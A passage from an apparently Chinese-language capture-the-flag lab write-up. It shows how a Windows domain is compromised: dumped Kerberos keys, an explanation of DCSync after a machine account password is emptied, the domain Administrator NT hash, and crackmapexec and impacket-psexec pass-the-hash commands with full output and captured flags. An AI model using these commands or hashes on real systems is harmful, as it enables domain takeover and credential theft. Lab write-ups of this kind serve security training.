cyberstrikelab.com\cyberweb:rc4_hmac:5ec3abbedd0da75d8005ace9df885235
WIN-7NRTJO59O7N$:aes256-cts-hmac-sha1-96:4715be0a05fa5448f368d1542b1a3117301d9b69ef8044a76256dbfcdce33e93
WIN-7NRTJO59O7N$:aes128-cts-hmac-sha1-96:518e862b4f821ec9894373f2df4bb8b4
WIN-7NRTJO59O7N$:des-cbc-md5:9291ce2a765d6270
WIN-7NRTJO59O7N$:rc4_hmac:31d6cfe0d16ae931b73c59d7e0c089c0
CYBERWEB$:aes256-cts-hmac-sha1-96:6962e6a77e281fbac5a212b8ee3e918199fb4ef04e439c9b189a4e2d972bb53e
CYBERWEB$:aes128-cts-hmac-sha1-96:1bb56cafd348256a0ea0e9d27ef8185c
CYBERWEB$:des-cbc-md5:9e0110fddcd63e57
CYBERWEB$:rc4_hmac:6f4f09864a97eee5fc03306df4e70cce
[*] Cleaning up... 
```



​`-no-pass`​ 表示使用空密码认证（因为刚才已经把机器账户密码置空了），`-just-dc`​ 表示只通过 DRSUAPI 协议从域控提取 NTDS.DIT 中的 hash（不提取本地 SAM 和 LSA secrets），`cyberstrikelab.com/'WIN-7NRTJO59O7N$'@192.168.20.30` 指定以域控机器账户的身份连接到域控。DCSync 攻击的原理是模拟一台域控制器，向目标域控发起域复制请求（DrsGetNCChanges），目标域控会将所有用户的密码 hash 返回给请求方。机器账户天然拥有这个权限，因为域控之间需要互相同步数据。

成功获取了域管理员 Administrator 的 NT Hash 为 `00f995cbe63fd30411f44d434b8dac98`

拿到域管 hash 后，使用 Pass-the-Hash 技术通过 SMB 协议直接拿到域控

```python
proxychains4 crackmapexec smb 192.168.20.30 -u Administrator -H 00f995cbe63fd30411f44d434b8dac98 -d CYBERSTRIKELAB -x "type C:\flag.txt"
```



flag：go-flag{hAeek65Vho2s199D}

# 192.168.20.20-flag2

识别到 http://192.168.20.20:7001 指纹: [weblogic]，然后使用工具检测一下存在什么漏洞，没打通。

然后直接 pth 传递就行

```python
(base) ┌──(root㉿kali)-[~]
└─# proxychains4 crackmapexec smb 192.168.20.20 -u Administrator -H 00f995cbe63fd30411f44d434b8dac98 -d CYBERSTRIKELAB -x "type C:\flag.txt"
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
/usr/lib/python3/dist-packages/paramiko/pkey.py:100: CryptographyDeprecationWarning: TripleDES has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.TripleDES and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  "cipher": algorithms.TripleDES,
/usr/lib/python3/dist-packages/paramiko/transport.py:259: CryptographyDeprecationWarning: TripleDES has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.TripleDES and will be removed from cryptography.hazmat.primitives.ciphers.algorithms in 48.0.0.
  "class": algorithms.TripleDES,
[proxychains] Dynamic chain  ...  172.16.233.2:1080  ...  192.168.20.20:445  ...  OK
[proxychains] Dynamic chain  ...  172.16.233.2:1080  ...  192.168.20.20:135  ...  OK
SMB         192.168.20.20   445    CYBERWEB         [*] Windows Server 2012 R2 Standard 9600 x64 (name:CYBERWEB) (domain:CYBERSTRIKELAB) (signing:False) (SMBv1:True)
[proxychains] Dynamic chain  ...  172.16.233.2:1080  ...  192.168.20.20:445  ...  OK
SMB         192.168.20.20   445    CYBERWEB         [+] CYBERSTRIKELAB\Administrator:00f995cbe63fd30411f44d434b8dac98 (Pwn3d!)
[proxychains] Dynamic chain  ...  172.16.233.2:1080  ...  192.168.20.20:135  ...  OK
[proxychains] Dynamic chain  ...  172.16.233.2:1080  ...  192.168.20.20:49154  ...  OK
SMB         192.168.20.20   445    CYBERWEB         [+] Executed command 
SMB         192.168.20.20   445    CYBERWEB         go-flag{yJzuQ09FXn0h7Em4}
```



flag：go-flag{yJzuQ09FXn0h7Em4}

也可以使用这个工具

```python
proxychains4 impacket-psexec CYBERSTRIKELAB/Administrator@192.168.20.20 -hashes :00f995cbe63fd30411f44d434b8dac98 
```




---

> 作者: [lpppp](/)  
> URL: https://lpppp.xyz/posts/lab4/  

